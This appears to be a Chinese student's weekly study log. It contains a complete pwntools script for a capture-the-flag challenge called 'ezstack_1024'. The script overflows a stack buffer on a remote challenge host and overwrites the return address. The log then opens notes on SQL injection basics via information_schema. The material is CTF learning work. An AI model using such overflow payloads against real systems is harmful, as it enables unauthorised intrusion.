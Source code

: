 ![1729774400726](image/1020-1026周报/1729774400726.png)

### PWN

#### ezstack_1024

```
from pwn import *
#p = process("pwn")
p = remote("challenge.qsnctf.com", 31174)
payload = b'a'*128+b'b'*8+ p64(0x401257)
p.sendline(payload)
p.interactive()
```

# `<font style="color:rgb(38, 38, 38);">本周学习总结 ``</font>`

#### SQL

[教程博客](https://rickliu.com/posts/1dc1c5acd0e2/index.html)

##### information_schema

information_schema为系统自带的数据库

里面有一个tables表，该表存放着数据库和数据表的关联，其中table_schema为存储数据库名的字段，table_name为存储表名的字段
